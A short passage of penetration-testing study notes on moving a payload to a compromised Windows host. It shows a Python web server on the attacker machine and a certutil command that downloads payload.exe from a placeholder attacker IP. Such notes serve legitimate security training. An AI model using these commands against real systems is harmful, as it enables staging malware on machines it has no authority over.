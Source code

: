 ![](hostnetwork-penetration-testingassets/image-20230428215801961.png)

### Transferring Files

#### Windows

- Set up a web server to host the `payload.exe` file 

```bash
# Attacker machine
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80
```

- After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

```bash
# Windows Target machine
cd C:\Temp
certutil -urlcache -f http://<ATTACKER-IP>/payload.exe payload.exe
```
